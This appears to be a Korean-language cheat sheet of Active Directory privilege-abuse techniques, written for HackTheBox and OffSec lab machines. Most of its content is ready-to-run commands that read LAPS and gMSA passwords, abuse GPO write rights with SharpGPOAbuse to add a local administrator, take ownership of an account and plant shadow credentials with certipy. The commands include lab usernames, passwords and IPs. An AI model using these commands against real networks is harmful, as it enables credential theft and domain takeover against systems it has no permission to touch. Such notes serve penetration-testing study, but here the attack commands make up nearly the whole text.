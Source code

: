 ### ReadLAPSPassword
LAPS로 구성된 대상 컴퓨터에서 GenericAll 또는 AllExtendedRights(또는 도메인별 동기화를 위해 GetChanges와 (GetChangesInFilteredSet 또는 GetChangesAll의 조합)가 있는 개체를 제어할 때 수행될 수 있습니다.

그러면 공격자는 컴퓨터 계정의 LAPS 비밀번호(즉, 컴퓨터의 로컬 관리자의 비밀번호)를 읽을 수 있습니다.

**ldapsearch**
```python
ldapsearch -H ldap://streamio.htb -b 'DC=streamIO,DC=htb' -x -D JDgodd@streamio.htb -w 'JDg0dd1s@d0p3cr3@t0r' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```

**netexec**
```python
netexec ldap 10.10.11.158 -d "streamio.htb" -u "JDgodd" -p "JDg0dd1s@d0p3cr3@t0r" --module laps
```

**bloodyAD**
```python
bloodyAD --host 10.10.11.158 -d streamio.htb -u 'JDgodd' -p 'JDg0dd1s@d0p3cr3@t0r' get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
```


### ReadGMSAPassword
bloodhound 등에서 ReadGMSAPassword 권한이 있음을 확인함.
![[Pasted image 20250715222407.png]]

따려고 하는 계정 이름을 --accountname 인수로 넣어줌
```bash
gmsapasswordreader.exe --accountname gmsa-jkohler
```

참고: https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword
GMSAPasswordReader: https://github.com/rvazarkar/GMSAPasswordReader


### GPOAbuse
#### Generic Write 권한이 있는 경우
소스코드: https://github.com/FSecureLABS/SharpGPOAbuse
exe 파이너리: https://github.com/byronkg/SharpGPOAbuse
```cmd
cmd.exe /c .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "Default Domain Policy"
```
이후 psexec 으로 접근하면 SYSTEM 권한을 획득할 수 있다.
```bash
impacket-psexec 'vault.offsec/anirudh:SecureHM'@192.168.129.172
```

### WriteOwner
#### Only shadow credential (Only if user owns the account now)
```sh
certipy shadow auto -u ryan@sequel.htb -p WqSZAF6CysDQbGb3 -account 'ca_svc' -dc-ip 10.10.11.51
```

#### If user not owns the account now..
```sh
bloodyAD -d sequel.htb --host 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan
bloodyAD -d sequel.htb --host 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3 add genericAll ca_svc ryan
# Shadow Credential
certipy shadow auto -u ryan@sequel.htb -p WqSZAF6CysDQbGb3 -account 'ca_svc' -dc-ip 10.10.11.51
```


